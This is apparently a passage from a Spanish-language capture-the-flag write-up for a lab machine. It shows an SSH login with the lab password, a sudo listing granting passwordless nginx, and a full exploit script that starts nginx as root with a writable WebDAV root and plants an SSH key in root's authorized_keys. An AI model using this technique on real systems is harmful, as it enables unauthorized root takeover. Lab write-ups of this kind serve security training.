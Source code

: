 ```terminal
/home/kali/Documents/thl/thlcppt_v16:-$ ssh jerry@thlcpptv16.thl
jerry@thlcpptv16.thl's password: smO4IquxSH1fMt5pnQ4lBaEH

jerry@thlcpptv16:~$ id
uid=1001(jerry) gid=1001(jerry) grupos=1001(jerry)
```

---
## Privilege Escalation

El usuario `jerry` tiene permisos para ejecutar nginx como `root` sin necesidad de contraseña.

```terminal
jerry@thlcpptv16:~$ sudo -l
Matching Defaults entries for jerry on thlcpptv16:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User jerry may run the following commands on thlcpptv16:
    (root) NOPASSWD: /usr/sbin/nginx
```

Según el siguiente exploit: [Privilege Escalation - NGINX / SUDO](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406) se puede aprovechar esta configuración, es posible iniciar un servidor nginx personalizado con permisos elevados que permita escribir en el sistema de archivos del usuario `root`.

```terminal
jerry@thlcpptv16:~$ cat exploit.sh 
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1339;
                root /;
                autoindex on;
                dav_methods PUT;
        }
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat .ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```
